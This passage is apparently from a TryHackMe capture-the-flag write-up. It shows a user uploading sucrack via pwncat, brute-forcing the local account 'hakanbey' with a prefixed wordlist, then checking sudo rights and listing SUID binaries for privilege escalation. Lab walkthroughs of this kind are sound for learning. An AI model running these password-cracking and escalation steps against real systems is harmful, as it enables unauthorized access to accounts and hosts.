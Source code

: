 `THM{*******************************}`

I just upload the sucrack by pwncat

```ruby
(local) pwncat$ upload /usr/bin/sucrack
./sucrack ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 30.8/30.8 KB • ? • 0:00:00
[02:05:47] uploaded 30.79KiB in 7.82 seconds 
```

and than I cracked by the wordlist that is already available in the server




```ruby
$ cat /var/www/html/announcements/wordlist.txt | sed 's/^/123adana/' > /tmp/wl.txt
$ /tmp/sucrack  -w 100 -u hakanbey /tmp/wl.txt
```

it take too much time


Once It get cracked login in to hakanbey

```ruby
$ su hakanbey
password: 123adanas*****

hakanbey@ubuntu:/tmp/sucrack-master$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

Password: 
Sorry, user hakanbey may not run sudo on ubuntu.




$ find / -perm -u=s -type f 2>/dev/null
/bin/su
/bin/umount
/bin/mount
/bin/ping
/usr/local/bin/sudo
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/chsh
/usr/bin/arping
/usr/bin/pkexec
/usr/bin/traceroute6.iputils
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/binary
/usr/bin/at
/usr/bin/newgrp
/usr/sbin/pppd
/usr/sbin/exim4

```